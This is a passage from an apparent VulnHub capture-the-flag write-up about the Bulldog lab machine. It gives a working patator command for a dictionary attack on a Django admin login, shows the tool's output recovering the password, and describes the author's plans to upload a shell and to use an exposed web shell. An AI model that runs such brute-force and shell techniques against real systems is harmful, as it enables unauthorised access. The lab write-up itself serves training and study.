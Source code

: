 And here is corresponding ```patator``` command line syntax to perform the same requests in dictionary attack:

```
./patator.py http_fuzz url=http://192.168.1.158/admin/login/?next=/admin/ method=POST body='csrfmiddlewaretoken=qysK0WgpDaoRfbU2MH1Lqdrkjf9mD4xU&username=FILE0&password=FILE1&next=/admin/' 0=/Users/bl4de/playground/VulnHub/buldog-usernames.txt 1=/Users/bl4de/hacking/dictionaries/passwords_2454.txt header="Cookie: csrftoken=qysK0WgpDaoRfbU2MH1Lqdrkjf9mD4xU" -x ignore:fgrep="Please enter the correct username and password for a staff account."
``` 

After thousands of attempts, one combination of username and password was found (with username __nick__ and password __bulldog__):

```
22:45:54 patator    INFO - Starting Patator v0.7-beta (https://github.com/lanjelot/patator) at 2017-12-01 22:45 GMT
22:45:54 patator    INFO -
22:45:54 patator    INFO - code size:clen       time | candidate                          |   num | mesg
22:45:54 patator    INFO - -----------------------------------------------------------------------------
23:00:34 patator    INFO - 302  584:-1         0.542 | nick:bulldog                       | 12650 | HTTP/1.0 302 FOUND
23:05:16 patator    INFO - Hits/Done/Skip/Fail/Size: 1/17178/0/0/17178, Avg: 14 r/s, Time: 0h 19m 21s
```

And it was valid:

![](assets/4.png)

But it wasn't what I was expected. __Nick__ wasn't able to do even a single thing in admin panel. I was expecting that I'll be able to use some features like file upload (and upload a shell) or maybe edit website directly in the panel and add some ```os.system()``` call.

Then, I remembered something - web shell under http://192.168.1.158/dev/shell/:

![](assets/5.png)
